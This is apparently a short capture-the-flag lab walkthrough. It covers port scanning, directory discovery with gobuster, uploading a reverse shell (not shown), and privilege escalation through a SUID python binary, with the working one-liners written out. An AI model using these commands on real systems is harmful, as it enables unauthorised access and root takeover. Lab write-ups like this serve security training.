  IP address 10.10.255.168

nmap scan result open port 80 http and 22 ssh

# Got /panel/ dir inside our server using gobuster

After uploading reverse shell

1. got Access to linux machine (User Access)

For checking -perm root user :
We Got /usr/bin/python for prvese 

python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

these two cmd help to get shell & get suid for previlege Escalation.


